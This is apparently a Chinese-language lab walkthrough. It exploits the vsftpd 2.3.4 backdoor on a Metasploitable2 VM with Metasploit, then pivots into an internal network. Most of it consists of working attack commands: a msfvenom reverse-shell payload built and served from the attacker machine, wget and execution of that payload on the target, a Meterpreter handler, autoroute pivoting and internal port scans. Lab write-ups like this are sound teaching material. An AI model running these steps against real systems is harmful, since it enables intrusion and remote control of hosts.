 # Metasploit攻击VSFTPD2.3.4后门漏洞并渗透内网

攻击机：Kali 192.168.109.137

靶机：Metasploitable2 192.168.109.140

内网另一主机： Metasploitable2 192.168.109.159

工具：Metasploit

## 开启MSF

```
msfconsole
```

## 扫描指定主机的服务和端口

```
nmap -sV -p 21,22,25,80,110,443,445 192.168.109.140
```

如果要存入MSF的数据库，则：

```
db_nmap -sV -p 21,22,25,80,110,443,445 192.168.109.140
```

## 列出在目标端口上运行的服务

```
services
```

## 过滤服务只显示开启的服务

```
services -u
```

## 列出数据库中所有的主机

```
hosts
```

## 漏洞攻击

```
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOST 192.168.109.140
set RPORT 21
show payloads
set payload cmd/unix/interact
exploit
```

注：所有操作都是在MSF终端下

**这里，我们继续将Shell控制升级为Meterpreter命令行。**

在攻击机Kali上重新开启一个终端：

## 生成反弹木马

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST 192.168.109.137 LPORT 4444 -f elf > backdoor.elf
```

注：elf是Linux系统下的默认扩展名

## 启动Kali上的Apache服务，并将backdoor.elf放置到服务器中

```
service apache2 start
mv backdoor.elf /var/www/html/
```

这样，就可以让目标系统从我们的计算机中下载这个木马文件了。

## 在目标机上下载木马文件

切换到第6步的终端，执行命令：

```
wget http://192.168.109.137/backdoor.elf
```

即将木马文件下载到了目标机上

## 在新开启的终端上执行如下命令

```
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.109.137
set LPORT 4444
exploit
```

## 在目标机上运行木马文件

切换到第6步的终端，执行命令：

```
chmod 7777 backdoor.elf
./backdoor.elf
```

## 查看反弹的Meterpreter终端

回到新开启的终端上查看，此时，我们看到已经反弹回Meterpreter命令行了。

接下来，就可以在Meterpreter终端进行操作了。

**下面，我们渗透内部网络。**

## 查看ARP内容

```
arp
```

由输出可以看出，内网中有另一主机IP地址为：192.168.109.159

**为了渗透进入这个内部网络，需要在成功渗透的主机上使用autoroute命令来设置跳板。**

## 设置跳板

在Meterpreter终端执行：

```
run autoroute -p
run autoroute -s 192.168.109.0 255.255.255.0
run autoroute -p
```

此时，我们的MSF就可以通过这个Meterpreter会话连接到内部网络。

## 将Meterpreter会话切换到后台

```
background
```

接下来就对这个网络中IP地址为192.168.109.159的主机使用auxiliary/scanner/portscan/tcp辅助模块进行一次端口扫描

## 对内网主机192.168.109.159进行端口扫描

```
use auxiliary/scanner/portscan/tcp
show options
setg RHOSTS 192.168.109.159
run
```

注意：设置RHOSTS的值时，这里使用的是setg命令，这样就会使RHOSTS的值设置为全局的192.168.109.159，从而无需反复输入这个命令。

由输出可知，在192.168.109.159上运行着很多服务，而且80端口是开放的。接下来使用auxiliary/scanner/http/http_version来验证目标主机在80端口上运行的服务。

## 验证192.168.109.159 80端口运行的服务

```
use auxiliary/scanner/http/http_version
show options
set RHOSTS 192.168.109.159
run
```

由输出可知，在主机80端口上运行的是Apache2.2.8服务器，其中的PHP 5.2.4版本是存在漏洞的，可以被攻击者获取对目标系统的控制。